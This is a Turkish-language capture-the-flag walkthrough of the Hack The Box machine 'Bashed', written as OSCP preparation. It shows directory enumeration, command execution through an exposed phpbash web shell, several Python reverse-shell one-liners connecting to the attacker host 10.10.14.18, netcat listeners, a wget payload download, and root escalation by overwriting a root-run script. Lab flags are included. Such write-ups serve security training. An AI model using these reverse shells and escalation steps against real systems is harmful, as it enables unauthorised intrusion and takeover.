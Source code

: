 # OSCP_Preparation

Makine: Bashed

 Nmap'i -A parametresi ile birlikte çalıştırıyorum. 

 -A parametresi NMAP’te en sık kullanılan parametrelerin bazılarını otamatik olarak kullanılmış olur.
Bunlar ise İşletim Sistemi Tespiti, Versiyon Tespiti, Script taraması ve Traceroute’tur. 

```console
──(naoumine㉿darker)-[~]
└─$ gobuster dir -u http://10.129.90.18 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt                                                                               
```

![image](./assets/1.PNG)


İlgili URL'e gidelim ve biraz kurcalayalım.

![image](./assets/2.PNG)

Sayfa içindeki link: https://github.com/Arrexel/phpbash

http://10.129.90.18/dev/phpbash.php dizinine gittiğimizde komut çalıştırabildiğimizi görüyoruz.

![image](./assets/8.PNG)

Burada kullanıcının yetkilerine bakıyoruz ve makina içerisinde python olduğunu doğruluyoruz. Şimdi reverse shell çalıştırmayı deneyelim.

Etkileşimsiz kabuktan etkileşimli kabuğa geçebilmek için çeşitli yöntemler bulunmaktadır. Bu yöntemlerden birisi de Python paketi kurulu olan hedef sistemde pty (Pseudo-terminal Utilities) modülünün spawn metodunu kullanmaktadır. Böylece aynı yetkiler ile etkileşimli komut satırı elde edilebilir.

![image](./assets/3.PNG)

ilk başta www.data kullanıcısı ile dosya yetkilerine bakmaya çalıştık ancak görüntüleyemedik bu yüzden scriptmanager kullanıcısı ile görüntülüyoruz.

scriptmanager'a ait bir python scripts'inin bulunduğu görüldü!

![image](./assets/4.PNG)

scriptmanager kullanıcısının text.py üzerinde yetkisi var ama garip olan text.txt neden bir root yetkisinde? Tahminimce test.py kodu kendi isteğimize göre düzenleyip işletirsek bu sonuç test.txt içine basılacak. Sonuç olarak root yetkisinde olan bir dosyaya ulaşmamızın bir anahtarı olabilir.

![image](./assets/5.PNG)

http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet linkindeki dosyayı indirip düzenledik.

```console
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Localimizde dinlemeye aldık ve hedef makine de hazırladığımız shell'i çalıştırdık.

```console
nc -nvlp 1234
```
![image](./assets/6.PNG)

User Flag: 2c281f318555dbc1b856957c7147bfc1

Scriptmanager kullanıcısı olarak devam ediyorum.

```console
sudo -i -u scriptmanager
```

Aşağıdaki şekilde betiği düzenledim.
```console
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.18",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

test1.py olarak kendi localimde kaydedip sunucu olarak 8000 portundan ayağa  kaldırıyorum. 

```console
python -m SimpleHTTPServer    
```

Hedef makinaya dosyayı indirdim.

```console
wget http://10.10.14.18:8000/test1.py
```

Reverse shell alabilecek miyiz dinlemeye başlayalım.

```console
nc -nvlp 8888
```

Çalıştıralım!

```console
python -c test1.py
```


![image](./assets/7.PNG)


Root Flag: cc4f0afe3a1026d402ba10329674a8e2

Ek Yöntem:

echo "import socket, subprocess, os; f=open("test.txt","w"); f.write("privesc"); f.close; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("10.10.14.18",9999)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);" > test.py